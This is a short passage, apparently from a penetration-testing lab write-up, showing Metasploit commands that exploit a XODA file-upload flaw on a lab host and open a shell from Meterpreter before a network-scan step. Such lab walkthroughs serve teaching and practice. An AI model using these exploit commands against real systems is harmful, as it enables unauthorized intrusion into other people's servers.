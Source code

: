 * Exploitation

```bash
search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS 192.41.167.3
set TARGETURI /
run
```

<figure><img src="../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

* Perform a network scan on the second target

```bash
meterpreter > shell
```
